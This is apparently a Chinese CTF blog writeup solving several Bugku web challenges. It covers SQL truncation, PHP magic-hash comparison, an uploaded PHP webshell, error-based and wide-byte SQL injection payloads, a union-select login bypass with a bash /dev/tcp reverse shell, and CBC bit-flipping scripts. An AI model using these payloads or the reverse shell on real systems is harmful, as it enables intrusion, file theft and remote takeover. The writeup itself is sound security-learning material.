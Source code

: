 ```yaml
---
layout: post
title: "Bugku writeup4"
date: 2018-03-21 22：00
categories: jekyll update
---
```


# web
### login1(SKCTF)
&emsp;&emsp;题目描述：
<div align="center">
    <img src="/images/posts/bugku/67.png" >  
</div>
&emsp;&emsp;这道题用的是`sql约束攻击`，利用的是数据库字段定义时产生的漏洞。如：
```shell
mysql> CREATE TABLE users (
    ->   username varchar(25),
    ->   password varchar(25)
    -> );
```
&emsp;&emsp;这里的`username`只允许25个字符，超过后就舍去25字符以后的，然后在`mysql`中，`admin`跟`admin       [很多空格]`在查询的时候是一样的。因为`admin`用户已经存在，但我们不知道他的密码，所以我们自己注册一个`admin`然后替换掉密码。所以我们可以注册一个`admin[很多个空格]1`的用户名，只要总字符数超过25，然后密码设成你的。注册成功后使用`admin`加你的`密码`去登陆即可得到flag。

### md5 collision(NUPT_CTF)
&emsp;&emsp;这道题是MD5碰撞，PHP在进行比较运算时，如果遇到了0e\d+这种字符串，就会将这种字符串解析为科学计数法，然后`0 == 字符串`是成立的，从而绕过了MD5检查，这里记录一些MD5值：
```
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s1885207154a
0e509367213418206700842008763514
s1502113478a
0e861580163291561247404381396064
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s155964671a
0e342768416822451524974117254469
s1184209335a
0e072485820392773389523109082030
s1665632922a
0e731198061491163073197128363787
s1502113478a
0e861580163291561247404381396064
s1836677006a
0e481036490867661113260034900752
s1091221200a
0e940624217856561557816327384675
s155964671a
0e342768416822451524974117254469
s1502113478a
0e861580163291561247404381396064
s155964671a
0e342768416822451524974117254469
s1665632922a
0e731198061491163073197128363787
s155964671a
0e342768416822451524974117254469
s1091221200a
0e940624217856561557816327384675
s1836677006a
0e481036490867661113260034900752
s1885207154a
0e509367213418206700842008763514
s532378020a
0e220463095855511507588041205815
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s214587387a
0e848240448830537924465865611904
s1502113478a
0e861580163291561247404381396064
s1091221200a
0e940624217856561557816327384675
s1665632922a
0e731198061491163073197128363787
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s1665632922a
0e731198061491163073197128363787
s878926199a
0e545993274517709034328855841020
```

### 文件包含2
&emsp;&emsp;打开题目，在源代码中发现了`upload.php`
<div align="center">
    <img src="/images/posts/bugku/68.png" >  
</div>
&emsp;&emsp;访问后发现是文件上传，但是只支持图片文件，不够这里没关系，不用考虑怎么绕过，因为文件包含的时候会使用`php`解析：
<div align="center">
    <img src="/images/posts/bugku/69.png" >  
</div>
&emsp;&emsp;上传一句话
<div align="center">
    <img src="/images/posts/bugku/70.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/71.png" >  
</div>
&emsp;&emsp;但是访问后发现存在过滤，`<?php`被替换成`_`。如下图：
<div align="center">
    <img src="/images/posts/bugku/72.png" >  
</div>
&emsp;&emsp;但是我们可以使用`<script language=php> </script>`标签绕过这个验证，我们再上传一次：
<div align="center">
    <img src="/images/posts/bugku/73.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/74.png" >  
</div>
&emsp;&emsp;可以看到，后台已经成功的解析了我们的`php代码`。接着使用菜刀连接。
<div align="center">
    <img src="/images/posts/bugku/75.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/76.png" >  
</div>
&emsp;&emsp;最终我们能拿到flag：`SKCTF{uP104D_1nclud3_426fh8_is_Fun}`。

### flag.php
&emsp;&emsp;题目：
<div align="center">
    <img src="/images/posts/bugku/77.png" >  
</div>
&emsp;&emsp;打开页面后发现提交表单没有反应，然后想起题目提示，所以尝试一下`get`一个请求。然后可以找到源码：
<div align="center">
    <img src="/images/posts/bugku/78.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/79.png" >  
</div>
&emsp;&emsp;这里有些诱惑性的东西，它故意在最后放出了`$key`的值，然而当你拿着`$KEY='ISecer:www.isecer.com';`去序列化后提交会发现是不对的。
<div align="center">
    <img src="/images/posts/bugku/80.png" >  
</div>
&emsp;&emsp;其实这道题用得知识跟数字与字符串比较的绕过方式有点相似，首先`$KEY`的值是没有定义的，但是我们可以构造`s:0:"";`字符串，他反序列化的结果就是一个空的字符串，然后绕过他的比较。
<div align="center">
    <img src="/images/posts/bugku/82.png" height="50%" />  
</div>
<div align="center">
    <img src="/images/posts/bugku/81.png" >  
</div>
&emsp;&emsp;此时flag就出来了。

### sql注入2
&emsp;&emsp;题目描述：
<div align="center">
    <img src="/images/posts/bugku/83.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/84.png" >  
</div>
&emsp;&emsp;这道题尝试了很多注入但都没有成功，后来经过看网上的writeup，才发现是`.DS_Store`泄露，然后网上找了个<a href="https://github.com/lijiejie/ds_store_exp">exp</a>，运行后就能得到flag文件。
<div align="center">
    <img src="/images/posts/bugku/85.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/86.png" >  
</div>
&emsp;&emsp;flag就是：`flag{sql_iNJEct_comMon3600!}`。

### 孙xx的博客
&emsp;&emsp;题目描述：
<div align="center">
    <img src="/images/posts/bugku/87.png" >  
</div>
&emsp;&emsp;这里提示信息搜集，所以我们扫一扫目录：
<div align="center">
    <img src="/images/posts/bugku/88.png" >  
</div>
&emsp;&emsp;这里扫出了`phpmyadmin`的目录，然后再去网站上看看，然后就能发现数据库的用户名和密码。
<div align="center">
    <img src="/images/posts/bugku/89.png" >  
</div>
&emsp;&emsp;我们拿去登陆一下，就能发现flag。
<div align="center">
    <img src="/images/posts/bugku/90.png" >  
</div>

### 报错注入
&emsp;&emsp;题目描述：
<div align="center">
    <img src="/images/posts/bugku/91.png" >  
</div>
&emsp;&emsp;可以看到这里过滤了很多字符，包括`空格`，但由于`mysql`的特性，我们可以使用回车换行符还替代即`%0a`或`%0d`。

&emsp;&emsp;因为要进行报错注入，所以我们可以使用`extractvalue()`或者`updatexml()`进行报错，尝试一条报错语句：
```
?id=1%0aand%0aextractvalue(1,concat(0x7e,(select%0a@@version),0x7e))
?id=1%0aand%0aupdatexml(1,concat(0x7e,(select%0a@@version),0x7e),1)
```
<div align="center">
    <img src="/images/posts/bugku/92.png" >  
</div>
&emsp;&emsp;可以看到已经成功报错，这里把`%0a`换成`%0d`也是可以的。要读取文件，mysql提供了`load_file()`函数，并且需要对文件名进行`16进制`编码。又因为`extractvalue()`有长度限制,最长为`32位`，所以我们需要使用`substr()`对`hex()`过的文件内容进行分割，我们一次取30个就好。这里注意的是如果不对文件内容进行`16进制`编码就会出现无法读取的情况。
```
?id=1%0aand%0a(extractvalue(1,concat(0x7e,substr(hex(load_file(0x2f7661722f746573742f6b65795f312e706870)),1,30))),0x7e)
```
&emsp;&emsp;最终我们能拿到一串16进制的字符，然后解密就可以得到flag：
<div align="center">
    <img src="/images/posts/bugku/93.png" >  
</div>
&emsp;&emsp;但这里最坑的就是双引号是中文的`”`，所以直接复制题目给的flag形式，然后把双引号里的值粘贴进去就行了。

### login3(SKCTF)
&emsp;&emsp;打开题目，发现过滤了很多字符，包括`空格 , = and`，所以这给我们注入带来极大的不便，但是`or select >`没有被过滤，我们先找到闭合字符。而且我们注意到，页面使用的是`en`编码，所以可以考虑`宽字节`注入。
<div align="center">
    <img src="/images/posts/bugku/94.png" >  
</div>
&emsp;&emsp;然后我们构造了验证poc：`username=admin%df%27or'1'>'1&password=admin`跟`username=admin%df%27or'2'>'1&password=admin`。
<div align="center">
    <img src="/images/posts/bugku/95.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/96.png" >  
</div>
&emsp;&emsp;可以看到当`or`返回真时它会检查`password`是否正确，而当`or`返回假时会报`没有此用户`的错误，所以，我们可以接着构造我们的payload。下面是我的payload：
```
username=admin%df%27or(select(password))>'0&password=admin
```
&emsp;&emsp;我们只需要不断刷新`>'`后面的字符就能把密码给注入出来，这里值得注意的是最后一个值的确定，可以看到当最后一个字符为`/`时页面返回了真，而为`0`时则返回了假。
<div align="center">
    <img src="/images/posts/bugku/97.png" >  
</div>
<div align="center">
    <img src="/images/posts/bugku/98.png" >  
</div>
&emsp;&emsp;因为我们使用的是`>`来进行判断的，所以最后的一个值一定会比真实值`小`，也就是说我们最后一位应该取`0`才是正确的。所以最终md5值：`51b7a76d51e70b419f60d3473fb6f900`。解密出来就是：`skctf123456`。然后我们登陆一下就能获得flag。
<div align="center">
    <img src="/images/posts/bugku/99.png" >  
</div>
&emsp;&emsp;ps：本来这里是打算写脚本跑的，但因为判断条件在脚本里无法使用，在postman中也不能作为判别的依据，所以，这个方法只能在`burpsuite`跟`zap`上使用。
<div align="center">
    <img src="/images/posts/bugku/100.png" height="50%" />  
</div>

### Trim的日记本
&emsp;&emsp;打开页面后如下：
<div align="center">
    <img src="/images/posts/bugku/101.png" height="80%" />  
</div>
&emsp;&emsp;然后随手注册了以一个账号，但发现不知道`id`无法登陆，所以就拿出了目录扫描器看看有什么发现。
<div align="center">
    <img src="/images/posts/bugku/102.png" />  
</div>
&emsp;&emsp;然后这里还真的有发现，我们访问一下`show.php`。
<div align="center">
    <img src="/images/posts/bugku/103.png" />  
</div>
&emsp;&emsp;可以发现一个flag，拿去提交还真是真的flag。所以这道题就so easy了。。。

### login2(SKCTF)
&emsp;&emsp;这道题就是学习姿势了，自己做的时候没有找到思路，然后看了writeup才做出来。

&emsp;&emsp;对请求抓包，然后可以发现`tip`，解密出来是几行代码。
<div align="center">
    <img src="/images/posts/bugku/104.png" />  
</div>
```php
$sql="SELECT username,password FROM admin WHERE username='".$username."'";
if (!empty($row) && $row['password']===md5($password)){
}

```
&emsp;&emsp;这里可以看到它是分离式的验证，首先查询`username`的用户，然后拿出`password`再进行比较，一开始想着是注入出`admin`的密码，但发现可能没有这个用户，而且也找不到注入的`poc`。后来参考网上的writeup才知道正确的打开方式。payload：
```
username=' union select md5(1),md5(1)#&password=1
```
&emsp;&emsp;执行这条语句时由于前面的`username`为空，所以没有数据返回，但后面的`union select md5(1),md5(1)`则会返回两个MD5(1)的值，然后`password`我们也置为`1`，从而绕过`if`语句的判断。

&emsp;&emsp;接下来可以进入命令执行的页面。
<div align="center">
    <img src="/images/posts/bugku/105.png" />  
</div>
&emsp;&emsp;然后我们反弹回一个shell来方便我们操作。我们先在本地监听一下，这里使用nc。
```bash
nc -lvv 8888
```
&emsp;&emsp;然后执行反弹shell的命令。
```bash
|bash -i >& /dev/tcp/你的公网ip/8888 0>&1
```
&emsp;&emsp;最后就能在服务器上收到shell，然后查询flag。
<div align="center">
    <img src="/images/posts/bugku/106.png" height="70%" />  
</div>
&emsp;&emsp;所以flag：`SKCTF{Uni0n_@nd_c0mM4nD_exEc}`。

### login4（CBC字节翻转攻击）
&emsp;&emsp;这道题就纯属学习姿势了，首先是进行敏感目录扫描，然后发现`.index.php.swp`源码泄露。
<div align="center">
    <img src="/images/posts/bugku/107.png" />  
</div>
```php
<?php
define("SECRET_KEY", file_get_contents('/root/key'));
define("METHOD", "aes-128-cbc");
session_start();

function get_random_iv(){
    $random_iv='';
    for($i=0;$i<16;$i++){
        $random_iv.=chr(rand(1,255));
    }
    return $random_iv;
}

function login($info){
    $iv = get_random_iv();
    $plain = serialize($info);
    $cipher = openssl_encrypt($plain, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $iv);
    $_SESSION['username'] = $info['username'];
    setcookie("iv", base64_encode($iv));
    setcookie("cipher", base64_encode($cipher));
}

function check_login(){
    if(isset($_COOKIE['cipher']) && isset($_COOKIE['iv'])){
        $cipher = base64_decode($_COOKIE['cipher']);
        $iv = base64_decode($_COOKIE["iv"]);
        if($plain = openssl_decrypt($cipher, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $iv)){
            $info = unserialize($plain) or die("<p>base64_decode('".base64_encode($plain)."') can't unserialize</p>");
            $_SESSION['username'] = $info['username'];
        }else{
            die("ERROR!");
        }
    }
}

function show_homepage(){
    if ($_SESSION["username"]==='admin'){
        echo '<p>Hello admin</p>';
        echo '<p>Flag is $flag</p>';
    }else{
        echo '<p>hello '.$_SESSION['username'].'</p>';
        echo '<p>Only admin can see flag</p>';
    }
    echo '<p><a href="loginout.php">Log out</a></p>';
}

if(isset($_POST['username']) && isset($_POST['password'])){
    $username = (string)$_POST['username'];
    $password = (string)$_POST['password'];
    if($username === 'admin'){
        exit('<p>admin are not allowed to login</p>');
    }else{
        $info = array('username'=>$username,'password'=>$password);
        login($info);
        show_homepage();
    }
}else{
    if(isset($_SESSION["username"])){
        check_login();
        show_homepage();
    }else{
        echo '<body class="login-body">
                <div id="wrapper">
                    <div class="user-icon"></div>
                    <div class="pass-icon"></div>
                    <form name="login-form" class="login-form" action="" method="post">
                        <div class="header">
                        <h1>Login Form</h1>
                        <span>Fill out the form below to login to my super awesome imaginary control panel.</span>
                        </div>
                        <div class="content">
                        <input name="username" type="text" class="input username" value="Username" onfocus="this.value=\'\'" />
                        <input name="password" type="password" class="input password" value="Password" onfocus="this.value=\'\'" />
                        </div>
                        <div class="footer">
                        <input type="submit" name="submit" value="Login" class="button" />
                        </div>
                    </form>
                </div>
            </body>';
    }
}
?>
```
&emsp;&emsp;因为`admin`用户被禁止了登陆，但是可以利用反序列化漏洞重置`$_SESSION['username']`为`admin`，然后拿到flag。

&emsp;&emsp;首先介绍一下`CBC字节翻转攻击`，如果我们要想把第二行（段）中的`2`变成`n`，我们只需要修改第一行（段）的`r`。
```
原文：
a:2:{s:8:"username";s:5:"admi2";s:8:"password";s:5:"skctf";}
按16个字符分割：
a:2:{s:8:"userna
me";s:5:"admi2";
s:8:"password";s
:5:"skctf";}
```
<div align="center">
    <img src="/images/posts/bugku/108.png" />  
</div>
&emsp;&emsp;修改方式就是：
```python
bs_de = 'a:2:{s:8:"username";s:5:"admi2";s:8:"password";s:5:"skctf";}'
bs_de=bs_de[0:13]+chr(ord(bs_de[13]) ^ ord('2') ^ ord('n'))+bs_de[14:]
```
&emsp;&emsp;我们把`cookie`中的`cipher`拿出来修改一下。
```python
# -*- coding:utf-8 -*-

import base64

bs = 'e8SnC9p3aEmJciIN8NWYM1PcA/A7jSwsiTglqdBMLRLf/8LOHKmhOoHSOBbJB1xEnE6S6DpfgkD8NWlJETxDZQ=='
bs_de = base64.b64decode(bs)
ch = chr(ord(bs_de[13]) ^ ord('2') ^ ord('n'))

bs_de=bs_de[0:13]+ch+bs_de[14::]

print(base64.b64encode(bs_de))
```
&emsp;&emsp;然后把得到的结果替换掉`cipher`，访问后可以发现反序列化出错了。
<div align="center">
    <img src="/images/posts/bugku/109.png" />  
</div>
&emsp;&emsp;这是因为在修改`第二段明文`的时候我们把`第一段的密文`破环掉了，造成后台无法解密出原来的数据。如下面这种情况。
<div align="center">
    <img src="/images/posts/bugku/110.png" />  
</div>
&emsp;&emsp;当将`6`修改成`7`的时候，造成了第一段密文解密出来的结果变成了乱码，所以我们还需要还原`第一段的密文`，所以我们要对`iv`这个初始向量进行修改。
<div align="center">
    <img src="/images/posts/bugku/111.png" />  
</div>
&emsp;&emsp;修改的方法还是跟上面一样的套路，只不过这里的`cipher`要变成上面提示`反序列化`错误的那个密文。因为这个反序列化错误的字符是`第一次翻转后的明文`。
<div align="center">
    <img src="/images/posts/bugku/112.png" />  
</div>
&emsp;&emsp;所以，我们修改的代码如下：
```python
import base64
mingwen_de='xvFs8hcryE3UwXuTa5b+7W1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjg6IlBhc3N3b3JkIjt9'
mingwen = base64.b64decode(mingwen_de)

iv = 'wJdHFG15Qc2hs1bkgMHd4w=='
iv_de = base64.b64decode(iv)
new = 'a:2:{s:8:"userna'
for i in range(16):
    iv_de = iv_de[:i] + chr(ord(iv_de[i]) ^ ord(mingwen[i]) ^ ord(new[i])) + iv_de[i+1:]

print(base64.b64encode(iv_de))
```
&emsp;&emsp;将得到的结果替换到`iv`上，然后刷新页面，就能看到flag了。
<div align="center">
    <img src="/images/posts/bugku/113.png" />  
</div>
&emsp;&emsp;<b>参考链接：</b>
<a href="http://p0sec.net/index.php/archives/99/">CBC字节翻转攻击</a><br>
<a href="http://drops.xmd5.com/static/drops/tips-7828.html">CBC字节翻转攻击</a>